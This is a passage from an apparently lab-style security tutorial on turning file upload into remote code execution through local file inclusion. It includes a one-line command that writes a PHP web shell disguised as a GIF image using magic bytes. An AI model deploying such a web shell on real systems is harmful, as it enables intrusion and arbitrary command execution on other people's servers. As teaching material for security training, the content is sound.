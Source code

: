 ﻿File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.

TheÂ [File Upload Attacks](https://academy.hackthebox.com/module/details/136)Â module covers different techniques on how to exploit file upload forms and functionalities. However, for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has codeÂ `Execute`Â capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g.Â `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

As mentioned in the first section, the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|âœ…|âœ…|âœ…|
|`require()`/`require_once()`|âœ…|âœ…|âŒ|
|**NodeJS**||||
|`res.render()`|âœ…|âœ…|âŒ|
|**Java**||||
|`import`|âœ…|âœ…|âœ…|
|**.NET**||||
|`include`|âœ…|âœ…|âœ…|

---

## Image upload

Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

#### Crafting Malicious Image

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g.Â `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g.Â `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:


```shell-session
smoothment@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
